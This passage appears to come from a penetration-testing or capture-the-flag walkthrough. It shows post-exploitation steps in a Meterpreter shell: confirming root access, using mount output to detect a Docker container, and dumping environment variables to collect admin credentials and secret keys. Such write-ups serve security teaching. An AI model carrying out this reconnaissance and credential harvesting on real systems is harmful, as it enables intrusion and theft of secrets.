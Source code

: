 Spawn shell and check user and list files
```hlt:1,2,3,5,12,15
meterpreter > shell
whoami
root

ls -alh
total 32K
drwxr-xr-x 1 root root  17 Jul  6 16:25 .
drwxr-xr-x 1 root root  40 Jul  6 16:42 ..
drwxr-xr-x 8 root root 162 Jul  6 16:41 .git
-rw-r--r-- 1 root root 199 Jul  6 16:25 Dockerfile
-rw-r--r-- 1 root root 15K Jul  6 16:25 README.md
drwxr-xr-x 1 root root  52 Jul  6 16:42 app
-rw-r--r-- 1 root root 167 Jul  6 16:25 pip.conf
-rw-r--r-- 1 root root 196 Jul  6 16:25 requirements.txt
-rw-r--r-- 1 root root 123 Jul  6 16:25 run.py
```
- Confirm we are root user
- Find python files and app directory

We're root user and hostname is random characters so we may be running in a container. 

Run `mount` to verify 
```hlt:1,docker
mount

overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/XSUOTVCMJALCFZC3RDKUMDRFT7:/var/lib/docker/overlay2/l/GZ2WZHEOX36F3NXSO3JL4BYD6L:/var/lib/docker/overlay2/l/HVQUSP32SJWVAJ3KOL2QASE4W3:/var/lib/docker/overlay2/l/HE7JGACHWIPRNCT54LBN6AXOZP:/var/lib/docker/overlay2/l/ESRP43XML3BVETNT2Z7I3N2JU4:/var/lib/docker/overlay2/l/KP435SVPCD3NIUYPJPVAREWOOZ:/var/lib/docker/overlay2/l/72FQOR2NP3DWJJSQEXIRCSYJLG:/var/lib/docker/overlay2/l/XGHOLK75NEJNWWWX6CXQOTPRVX:/var/lib/docker/overlay2/l/FYRGADRJGMIS5XK5SBKPLCX6BG:/var/lib/docker/overlay2/l/Z2X5KHFJNPU35ZKBGAHJUEZT3I:/var/lib/docker/overlay2/l/5QTAPW6XADCCWCTAVASPNQT7A4:/var/lib/docker/overlay2/l/35PKZCCO3U4ARBXXGICO35VEMU:/var/lib/docker/overlay2/l/J5J2DCSN4XC4G5HJ6VLPEB3KJL:/var/lib/docker/overlay2/l/D3NHOQ5FM57FMMCEBAT575CAVI:/var/lib/docker/overlay2/l/4BJ4Q3NJFA6VRGPHR4GYYFAB4T,upperdir=/var/lib/docker/overlay2/b95da9be18e4db9ea42697d255af877c65d441522e0f02f8a628239709573bfc/diff,workdir=/var/lib/docker/overlay2/b95da9be18e4db9ea42697d255af877c65d441522e0f02f8a628239709573bfc/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
...
```

Yes, we're in docker container. Next logical thing to check environment variables for secrets
```hlt:1,4,7,8,18
printenv

HOSTNAME=6699d104d6c5
SECRET_KEY=asdfasdfasdfasdf
PYTHON_PIP_VERSION=22.3.1
HOME=/root
GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
ADMIN_PASSWORD=password
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/d5cb0afaf23b8520f1bbcfed521017b4a95f5c01/public/get-pip.py
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
LANG=C.UTF-8
SQLALCHEMY_TRACK_MODIFICATIONS=False
PYTHON_VERSION=3.11.2
PYTHON_SETUPTOOLS_VERSION=65.5.1
PWD=/app
PYTHON_GET_PIP_SHA256=394be00f13fa1b9aaa47e911bdb59a09c3b2986472130f30aa0bfaf7f3980637
SQLALCHEMY_DATABASE_URI=sqlite:////data/data.db
ADMIN_USERNAME=admin
```
- _ADMIN_USERNAME_, _ADMIN_PASSWORD_, _SECRET_KEY_, and _GPG_KEY_ may be handy 
